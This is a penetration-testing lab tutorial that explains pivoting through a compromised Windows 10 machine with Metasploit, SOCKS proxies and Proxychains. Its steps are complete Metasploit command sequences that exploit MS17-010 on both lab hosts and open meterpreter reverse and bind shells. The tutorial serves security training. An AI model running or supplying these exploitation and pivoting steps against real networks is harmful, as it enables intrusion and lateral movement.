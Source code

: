 
````markdown
# Pivoting and Routing Tables in Penetration Testing

This document outlines the steps to perform pivoting between two target machines (`Target1` and `Target2`) using Kali Linux and Metasploit. It also explains the role of SOCKS proxies and Proxychains in facilitating pivoting.

---

## Description

### What is Pivoting?
- **Pivoting** is the technique of using a compromised machine (`Target1`) as a springboard to access another machine (`Target2`) in a different or isolated network.
- It’s often necessary when networks are segmented, and the attacker doesn’t have direct access to internal machines.

---

### What is a SOCKS Proxy?
- A **SOCKS proxy** is a generic proxy protocol that can forward any kind of network traffic (TCP/UDP) between a client and a server.
- In penetration testing:
  - It allows routing of traffic **through the compromised host** (`Target1`) into the internal network.
  - Makes the attacker’s tools behave as if they were running *from inside Target1*.
  - Without SOCKS, traffic generated on the attacker machine would never reach the internal network.

---

### What is Proxychains?
- **Proxychains** is a Linux tool that forces any network program (e.g., `nmap`, `msfconsole`, `sqlmap`) to connect through a proxy (like SOCKS).
- Features:
  - **Transparent Proxying**: You don’t need every tool to natively support proxies.
  - **Multiple Proxies in Chain**: Traffic can be bounced through multiple proxies for stealth.
  - **Practical Usage**: Lets you run scanners and exploits directly from your Kali box as if you were on the pivot host.

---

### Why Use SOCKS + Proxychains Together?
- Metasploit’s **autoroute** only redirects traffic **inside the Meterpreter session**.
  - This means you’re limited to running Metasploit modules that support pivoting — you can’t just use `nmap` or other external tools.
- By enabling a **SOCKS proxy** in Metasploit and using **Proxychains** on Kali:
  - Any external tool can send traffic through `Target1` to reach `Target2`.
  - You’re no longer confined to just one Meterpreter session.
- **Without SOCKS & Proxychains**:
  - You could only interact with `Target2` through Metasploit modules inside that single Meterpreter session.
  - You’d lose flexibility for using third-party tools (`nmap`, `crackmapexec`, etc.).

---

## Network Configuration

- **Kali Linux (Attacker)**
  - Bridge Adaptor (BA): `192.168.0.139`

- **Windows 10 (Target1)**
  - Bridge Adaptor (BA): `192.168.0.117`
  - Host-Only Adaptor (HA): `192.168.205.105`

- **Windows 10 Clone (Target2)**
  - Host-Only Adaptor (HA): `192.168.205.106`

---

## Step 1: Gaining Access to Target1
```bash
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_psexec
set payload windows/x64/meterpreter/reverse_tcp
set RHOST 192.168.0.117
set SMBUSER forensic
set SMBPASS admin
set LHOST 192.168.0.139
set LPORT 6622
exploit
````

---

## Step 2: Adding Routing Table for Pivoting

```bash
use post/multi/manage/autoroute
set SESSION 1
run
route
```

---

## Step 3: Enabling SOCKS Proxy in Metasploit

```bash
use auxiliary/server/socks_proxy
run
jobs
```

---

## Step 4: Configuring Proxychains

```bash
mousepad /etc/proxychains4.conf
```

* Uncomment:

  ```text
  dynamic_chain
  ```
* Comment:

  ```text
  strict_chain
  ```
* Add SOCKS proxy:

  ```text
  socks5 127.0.0.1 1080
  ```

---

## Step 5: Scanning and Exploiting Target2

```bash
proxychains nmap -p 139,445 -sT -n -Pn 192.168.205.106
proxychains msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_psexec
set PAYLOAD windows/x64/meterpreter/bind_tcp
set RHOST 192.168.205.106
set SMBUSER forensic
set SMBPASS admin
set LPORT 6644
exploit
```

---

## Key Takeaways

* **SOCKS Proxy**: Creates a tunnel through the compromised host into the internal network.
* **Proxychains**: Lets any tool on Kali use that proxy, not just Metasploit.
* **Without SOCKS & Proxychains**: You’d be stuck inside one Meterpreter shell, only able to use built-in Metasploit modules for pivoting.
* **With SOCKS & Proxychains**: You can run `nmap`, `sqlmap`, `msfconsole`, or any other tool seamlessly against internal targets.
